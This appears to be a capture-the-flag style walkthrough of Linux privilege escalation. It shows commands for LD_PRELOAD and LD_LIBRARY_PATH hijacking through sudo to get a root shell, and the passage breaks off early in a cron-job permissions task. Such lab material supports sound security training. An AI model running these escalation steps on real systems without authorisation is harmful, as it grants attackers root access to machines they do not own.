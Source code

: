 # Task 7 : Sudo - Environment Variables

Check which environment variables are inherited (look for the env_keep options):
```
sudo -l
```
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
```
sudo LD_PRELOAD=/tmp/preload.so awk
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:
```
ldd /usr/sbin/apache2
```
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
```
sudo LD_LIBRARY_PATH=/tmp apache2
```

# Task 8 : Cron Jobs - File Permissions

View the contents of the system-wide crontab:
```
cat /etc/crontab
```
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:
```
locate overwrite.s
```
ouptut
```
/usr/local/bin/overwrite.sh
```

